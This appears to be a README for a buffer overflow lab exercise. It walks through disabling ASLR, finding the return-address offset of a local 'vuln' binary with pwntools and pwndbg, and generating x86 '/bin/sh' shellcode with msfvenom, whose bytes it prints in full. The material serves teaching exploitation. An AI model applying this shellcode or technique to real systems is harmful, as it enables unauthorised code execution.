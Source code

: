 # BOF Example

## Requirements

- pwntools
- pwndbg

Disable ASLR

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

> Don't forget to reenable the feature
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

## X64?

You will need 32-bit development headers and libraries

```bash
sudo apt-get install gcc-multilib
```

## Get the offset

1. Run pwndbg and use pwntools cyclic function to get the register info

```bash
gdb ./vuln
run $(python3 -c 'from pwn import *; print(cyclic(500))')
x/300x $esp
info registers
```

2. Capture the %eip value after crash

```txt
0x61646361
```

3. Get the offset related to the value

```bash
pwndbg> cyclic -l 0x61646361
Finding cyclic pattern of 4 bytes: b'acda' (hex: 0x61636461)
Found at offset 210
```

4. Check the offset works as expected with a custom payload

```bash
run $(python3 -c 'from pwn import *; import sys; print("A"*210 + "B"*4)')
```

As we can see, there is some issue with the aligment, we need to add 2 bytes to control the EIP effectively 

```bash
break vuln
run $(python3 -c 'from pwn import *; import sys; print("A"*212 + "B"*4)')
n
info registers
x/300x $esp
c
info registers
```
## Generate the shellcode!

```
msfvenom -p linux/x86/exec CMD='/bin/sh' -b "\x00\x0a\x0d\x20" -f python
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 70 (iteration=0)
x86/shikata_ga_nai chosen with final size 70
Payload size: 70 bytes
Final size of python file: 357 bytes
buf =  b""
buf += b"\xba\x13\xc0\x5c\xd1\xdb\xca\xd9\x74\x24\xf4\x5e"
buf += b"\x33\xc9\xb1\x0b\x31\x56\x15\x03\x56\x15\x83\xee"
buf += b"\xfc\xe2\xe6\xaa\x57\x89\x91\x79\x0e\x41\x8c\x1e"
buf += b"\x47\x76\xa6\xcf\x24\x11\x36\x78\xe4\x83\x5f\x16"
buf += b"\x73\xa0\xcd\x0e\x8b\x27\xf1\xce\xa3\x45\x98\xa0"
buf += b"\x94\xfa\x32\x3d\xbc\xaf\x4b\xdc\x8f\xd0"
```
NULL -> \x00
NewLine -> \x0a
Carriage Return ->\x0d
Space -> \x20

shellcode -> 70 bytes :)

## Run the exploit
./vuln $(python3 solution_exploit.py)




## Now let's build the exploit

Check the [solution file](./solution_exploit.py))
